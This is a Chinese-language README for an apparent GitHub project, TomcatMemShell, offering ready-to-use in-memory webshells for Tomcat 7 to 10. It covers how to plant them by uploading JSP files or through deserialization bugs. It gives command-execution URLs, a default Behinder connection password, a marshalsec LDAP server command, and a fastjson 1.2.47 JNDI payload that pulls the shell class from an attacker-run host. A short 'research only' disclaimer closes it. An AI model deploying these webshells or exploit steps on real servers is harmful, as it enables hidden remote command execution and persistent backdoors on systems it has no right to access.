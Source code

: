 # TomcatMemShell
拿来即用的Tomcat7/8/9/10版本Listener/Filter/Servlet内存马，支持注入CMD内存马和冰蝎内存马

测试通过的Tomcat版本：  
- **tomcat7.0.99**(2019-12-17)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat7.0.64**(2015-10-14)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat7.0.34**(2012-12-11)  
- **tomcat8.5.69**(2021-07-05)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat8.0.46**(2017-08-18)  
- **tomcat9.0.12**(2018-09-10)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat9.0.53**(2021-09-10)  
- **tomcat10.0.11**(2021-09-10)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat10.1.0-M2**(2021-07-02)
# 说明
### 主要内容
1. 适配对应版本的库和函数，如tomcat10开始javax.servlet更改为jakarta.servlet等
2. 添加冰蝎内存马的注入代码，方便直接GetShell
3. 分别总结了.jsp和.java的内存马实现方式，添加了Listener内存马

### JSP目录
根据目标环境**上传或写入**对应大版本的.jsp文件并访问，访问后页面返回>@<即说明注入成功，支持Tomat7/8/9/10版本

*见名知义，memlistener8910.jsp表示适用于Tomcat8/9/10版本的Listener CMD内存马，icememfilter7.jsp表示适用于Tomcat7版本的Filter冰蝎内存马*

### DeSerialize目录
对应的.java文件和.class文件需要结合**反序列化漏洞**类型进行漏洞利用，如fastjson的jndi或snakeyaml的spi等，支持Tomcat8/9/10版本

不适用于shiro漏洞，shiro漏洞利用需要继承AbstractTranslet类并且修改Header大小，感兴趣的可参考该项目：https://github.com/KpLi0rn/ShiroVulnEnv

*见名知义，LRain10表示适用于Tomcat10版本的Listener CMD内存马，IFRain表示适用于Tomcat8/9的Filter冰蝎内存马 （注意java文件修改文件名请与类名保持一致）*

对应java文件中StandardContext的获取依据Litch1师傅[《基于全局储存的新思路 | Tomcat的一种通用回显方法研究》](https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3)的Thread.currentThread().getContextClassLoader()方式，该方式不适用于Tomcat7

# 用法
**Listener型/Filter型:**  
- CMD内存马URL：xx.xx.xx.xx/?chan=whoami  
- 冰蝎内存马URL：xx.xx.xx.xx/ &nbsp;&nbsp;&nbsp;&nbsp;默认连接密码：goautomne

**Servlet型：**  
- CMD内存马URL: xx.xx.xx.xx/p?chan=whoami  
- 冰蝎内存马URL: xx.xx.xx.xx/p &nbsp;&nbsp;&nbsp;&nbsp;默认连接密码：goautomne

# 利用举例
以fastjson1.2.47版本的反序列化漏洞为例，将对应Tomcat版本的class文件，这里以ILRain.class为例，上传到web服务器，并开启LDAP服务
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://xx.xx.xx.xx/#ILRain 9102
```
然后再打入fastjson漏洞的poc,就可以使用冰蝎客户端去连接了
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://xx.xx.xx.xx:9102/123",
        "autoCommit":true
    }
}
```

# 免责声明
仅供技术研究，请勿用于非法用途

# 题外话
觉得有帮助的话烦请给个star:wave:

